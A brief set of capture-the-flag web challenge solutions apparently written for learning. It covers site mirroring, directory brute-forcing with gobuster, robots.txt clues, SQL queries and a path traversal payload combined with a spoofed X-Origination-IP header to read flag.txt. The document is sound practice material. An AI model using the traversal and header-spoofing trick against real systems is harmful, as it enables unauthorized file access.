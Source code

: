 ### Solution
- Download the entire site using `wget`:
  ```bash
  wget -m [url]
  ```
- The flag was found in the `style.css` file.

---

## Forbidden Path

### Solution
- Modify the HTTP request header to include:
  ```bash
  X-Origination-IP: 127.0.0.1
  ```
- Access the file path using:
  ```bash
  /../../../../../../../../../../flag.txt
  ```
- Ensure the file path is URL encoded.

---

## Secrets

### Solution
- Use `gobuster` to discover hidden paths:
  ```bash
  gobuster dir -u [url] -w /path/to/wordlist
  ```
- Hidden paths such as `secret`, `hidden`, and `superhidden` contain clues leading to the flag in the source code.

---

## Roboto Sans

### Solution
- Retrieve file names from `robots.txt`, including `flag1.txt` and `js/myfile.txt`.
- Decode the Base64 encoded content from `js/myfile.txt` to reveal the flag.

---

## SQL Direct

### Solution
- Use PostgreSQL syntaxs to access the database:
  ```sql
  \dt+
  SELECT * FROM flags;
  ```

---